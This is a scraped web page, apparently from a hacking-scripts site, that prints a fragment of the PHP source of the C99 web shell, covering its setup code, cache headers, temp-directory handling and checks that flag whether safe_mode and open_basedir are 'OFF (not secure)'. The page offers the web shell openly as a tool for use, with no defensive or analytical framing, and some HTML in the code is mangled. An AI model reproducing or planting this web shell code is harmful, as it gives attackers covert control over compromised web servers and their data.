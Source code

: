 if ($act == "gofile") {if (is_dir($f)) {$act = "ls"; $d = $f;} else {$act = "f"; $d = dirname($f); $f = basename($f);}}
//Sending headers
@ob_start();
@ob_implicit_flush(0);
function onphpshutdown()
{
 global $gzipencode,$ft;
 if (!headers_sent() and $gzipencode and !in_array($ft,array("img","download","notepad")))
 {
 $v = @ob_get_contents();
 @ob_end_clean();
 @ob_start("ob_gzHandler");
 echo $v;
 @ob_end_flush();
 }
}
function c999shexit()
{
 onphpshutdown();
 exit;
}
header("Expires: Mon, 26 Jul 1997 05:00:00 GMT");
header("Last-Modified: ".gmdate("D, d M Y H:i:s")." GMT");
header("Cache-Control: no-store, no-cache, must-revalidate");
header("Cache-Control: post-check=0, pre-check=0", FALSE);
header("Pragma: no-cache");
if (empty($tmpdir))
{
 $tmpdir = ini_get("upload_tmp_dir");
 if (is_dir($tmpdir)) {$tmpdir = "/tmp/";}
}
$tmpdir = realpath($tmpdir);
$tmpdir = str_replace("\\",DIRECTORY_SEPARATOR,$tmpdir);
if (substr($tmpdir,-1) != DIRECTORY_SEPARATOR) {$tmpdir .= DIRECTORY_SEPARATOR;}
if (empty($tmpdir_logs)) {$tmpdir_logs = $tmpdir;}
else {$tmpdir_logs = realpath($tmpdir_logs);}
if (@ini_get("safe_mode") or strtolower(@ini_get("safe_mode")) == "on")
{
 $safemode = TRUE;
 $hsafemode = "&lt;/pre&gt;
&lt;span style="color: red;"&gt;ON (secure)&lt;/span&gt;
&lt;pre&gt;";
}
else {$safemode = FALSE; $hsafemode = "&lt;/pre&gt;
&lt;span style="color: green;"&gt;OFF (not secure)&lt;/span&gt;
&lt;pre&gt;";}
$v = @ini_get("open_basedir");
if ($v or strtolower($v) == "on") {$openbasedir = TRUE; $hopenbasedir = "&lt;/pre&gt;
&lt;span style="color: red;"&gt;".$v."&lt;/span&gt;
&lt;pre&gt;";}
else {$openbasedir = FALSE; $hopenbasedir = "&lt;/pre&gt;
&lt;span style="color: green;"&gt;OFF (not secure)&lt;/span&gt;
&lt;pre&gt;";}
$sort = htmlspecialchars($sort);
if (empty($sort)) {$sort = $sort_default;}
$sort[1] = strtolower($sort[1]);
$DISP_SERVER_SOFTWARE = getenv("SERVER_SOFTWARE");
if (!ereg("PHP/".phpversion(),$DISP_SERVER_SOFTWARE)) {$DISP_SERVER_SOFTWARE .= ". PHP/".phpversion();}
$DISP_SERVER_SOFTWARE = str_replace("PHP/".phpversion(),"&lt;a href="\&quot;&quot;.$surl.&quot;act=phpinfo\&quot;" target="\&quot;_blank\&quot;"&gt;&lt;b&gt;&lt;span style="text-decoration: underline;"&gt;PHP/".phpversion()."&lt;/span&gt;&lt;/b&gt;&lt;/a&gt;",htmlspecialchars($DISP_SERVER_SOFTWARE));

 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png